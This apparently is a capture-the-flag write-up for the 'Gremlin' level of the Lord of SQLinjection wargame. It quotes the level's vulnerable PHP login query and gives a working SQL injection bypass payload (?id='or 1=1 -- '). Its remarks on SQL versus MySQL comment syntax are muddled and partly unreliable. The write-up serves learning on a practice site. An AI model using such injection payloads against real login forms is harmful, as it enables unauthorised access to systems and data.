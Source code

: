 # **1.Gremlin**

Let's get to this challenge by search `Lord of SQLinjection`.

If you can't find it, try the url below:
[los.eagle-jump](https://los.eagle-jump.org/)

It seems the child CTF web site of **Stereotyped Challenges**, but more eazier(?), perhaps that......

![](https://i.imgur.com/4m2s13Q.png)

First, this is start page, sign in.

![](https://i.imgur.com/053mwSv.png)

When you login, you'll redirect to this page.

Press the first monster, Gremlin.

Then you'll find source code below.

```
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) solve("gremlin");
  highlight_file(__FILE__);
?> 
```

Make `$query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";` be `True` from return error, then you'll pass it.

For this kind of SQL question, that's use the basic startup the try it, `' or 1=1 --`.

However, it failed.

This is the Basic question, we just like living in the world of "[Goblin Slayer](https://en.wikipedia.org/wiki/Goblin_Slayer)".

The weaker, the trickier.

The bug always to be comma missing, LOL.

Here is the thing, I found that command symbols between SQL and MySQL are a little bit different from each others.

In [SQL](https://docs.microsoft.com/zh-tw/sql/t-sql/language-elements/comment-transact-sql), it use `--%20`, two minus with one space.

But in [MySQL](https://dev.mysql.com/doc/refman/5.7/en/mysqldump-sql-format.html), it just use two minus, `--`.

And there's one more thing should be noticed, the space without quot, `'`, it will be ignored while during transaction.

So, to this question, the payload should be 
```
?id=%27or%201=1%20--%20%27
```
```
?id='or 1=1 -- '
```

![](https://i.imgur.com/aLHNXax.png)

Append it to the url, then you pass it.

※Old version **Hackbar** is down now, please get a new  alternaives.
